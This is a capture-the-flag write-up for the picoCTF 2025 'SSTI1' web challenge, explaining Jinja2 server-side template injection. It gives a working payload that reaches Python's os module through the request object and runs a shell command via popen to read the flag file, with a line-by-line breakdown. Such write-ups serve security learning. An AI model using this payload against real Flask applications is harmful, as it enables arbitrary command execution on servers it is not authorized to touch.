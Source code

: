 ```yaml
---
author: Nishanth Jadav
pubDatetime: 2025-03-22T04:38:05Z
modDatetime: 2025-03-22T04:38:05Z
title: picoCTF 2025 - SSTI1
slug: picoctf-2025-SSTI1
featured: true
draft: false
tags:
  - web
  - picoCTF2025
  - easy
description: A writeup for the web exploitation challenge SSTI1
---
```


## Table of contents

## Challenge-Information 

100 Points

Tags: picoCTF 2025, Web Exploitation, browser_webshell_solvable

Author: VENAX

Challenge Link: https://play.picoctf.org/practice/challenge/492

## Explanation
# CTF Write-Up: Jinja2 Web Exploit

## Background

In this CTF challenge, the goal was to exploit a web application using Jinja2 template injection. Jinja2 is a common templating engine for Python that allows developers to inject variables and execute Python code within templates. Exploiting Jinja2 vulnerabilities often involves creating payloads that manipulate the template engine to execute arbitrary commands.

## Challenge Description

The challenge provided a web application vulnerable to Jinja2 template injection. The objective was to read the contents of a file located at `/challenge/flag` on the server.

## Exploitation Strategy

### Understanding Jinja2 Injection

Jinja2 allows access to global variables through the `__globals__` attribute of the `application` object in Flask applications. By leveraging this feature, it's possible to access built-in Python functions such as `__import__` and subsequently execute commands.

### Payload Breakdown

The payload used for this exploit was:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}
```

Let's examine this more closely starting with:
```
{{ ... }}
```

This is a Jinja2 expression, used to evaluate and render dynamic content in a template. 

```
request.application
```

This line accesses the ```application``` attribute of the ```request``` object.

```
.__globals__
```

Retrieves the global namespace, which contains built-in objects and functions.

```
.__builtins__
```

Accesses Python's built-in functions and modules.

```
.__import__('os')
```

Dynamically imports the ```os``` module, which allows interaction with the operating system. Note: commands like this one are obviously vulnerable to exploits, and were blacklisted in the more difficult, part 2 of this problem, SSTI2.

And now, accessing the flag with: 
```
.popen('cat /challenge/flag')
```

Executes the shell command: 
```
cat /challenge/flag
```

Reading the contents of the file ```/challenge/flag```

And lastly,
```
.read()
```

Reads and **returns the output** of the executed command.

## References
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
